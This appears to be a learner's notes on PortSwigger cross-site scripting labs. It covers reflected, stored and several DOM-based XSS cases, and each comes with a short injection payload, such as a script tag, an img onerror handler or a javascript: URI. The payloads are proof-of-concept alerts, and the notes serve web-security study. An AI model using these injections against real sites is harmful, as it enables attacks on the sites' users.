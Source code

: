 # Cross-Site Scripting - PortSwigger Notes

#### 1. Reflected XSS into HTML context with no encoding:

```
<script>alert('hello')</script>
```

can be only exploited by social engineering.

eg: in search bar.

#### 2. Stored XSS into HTML context with no encoding.

```javascript
<script>alert('hello')</script>
```

eg: in a blog.

##### 3.  DOM XSS in `document.write` sink using source `location.search`

<img src="/resources/images/tracker.gif?searchTerms=hello"

we need to close the img tag and add the payload,

```
hello"><script>alert(1)</script>
```

#### 4. DOM XSS in `innerHTML` sink using source

As innerHTML does not execute script tag, we should provide img tag.

```
<img src=x onerror=alert(1)>
```

#### 5. DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

The input value is taken and inserted into an <href> tag and then the <href> inserted to <a> tag. We need inject payload in the url,

```
javascript:alert(1);
```


